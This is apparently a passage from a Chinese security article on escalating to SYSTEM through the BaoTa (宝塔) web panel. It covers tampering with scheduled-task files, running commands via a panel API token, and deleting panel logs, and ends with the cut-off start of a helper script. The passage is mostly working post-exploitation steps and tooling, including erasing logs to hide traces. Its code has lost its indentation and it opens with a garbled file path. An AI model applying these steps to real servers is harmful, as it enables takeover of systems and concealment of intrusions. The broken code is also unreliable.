 ```
路径：C:/BtSoft/cron/
```

计划任务提权

基本上场景同 API 提权，可以去修改计划任务文件 (比如网站备份)，默认是在凌晨 1：30 执行，权限也是 system。

```
python3 .\bt_panel_script.py
```

有些面板 API 会无法登陆，就只能利用计划任务来提权了，缺点是路径不固定，且执行时间也不固定。

自动化测试

```
python3 .\bt_panel_api.py -g
```

使用此脚本可以全自动获取宝塔相关信息，python 可以直接用宝塔的，不用担心没环境。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9V3mQm4R73FtsnuWEBwckvMph2ibvDa5iback3gNSYxhfIJGHMpZQv4ZZ5m7flF0Yq3FeviaIvgGKZg/640?wx_fmt=png)

```
python3 .\bt_panel_api.py -u "http://192.168.101.5:8888/" -t "085bd64a698cf601ae472425656b2346" -c whoami
```

这个脚本可以生成 api 示例，把生成的 json 替换到指定文件后就能提权。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9V3mQm4R73FtsnuWEBwckvxm2Baa4RL9YHNrrRIGjbFKuBByqRibI7nb4qgV3iaib8I5xa1hu2sPv8w/640?wx_fmt=png)

```
python3 .\bt_panel_log_delete.py
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9V3mQm4R73FtsnuWEBwckv9ky458KT3KAicFk359WL93ZiajHB9KvaxJ7PxGJUgMyl75MTeOibRkvxA/640?wx_fmt=png)

```
import requests
import argparse
import hashlib
import json
import time
import cowsay


def md5(string):
return hashlib.md5(string.encode()).hexdigest()


def get_random_string(length):
from random import Random
    strings = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    char_len = len(chars) - 1
    random = Random()
for i in range(length):
        strings += chars[random.randint(0, char_len)]
return strings


def get_ip():
return requests.get(url='https://ifconfig.me/ip').text


def generate_example_config():
    token = md5(get_random_string(10))
    payload = {
```
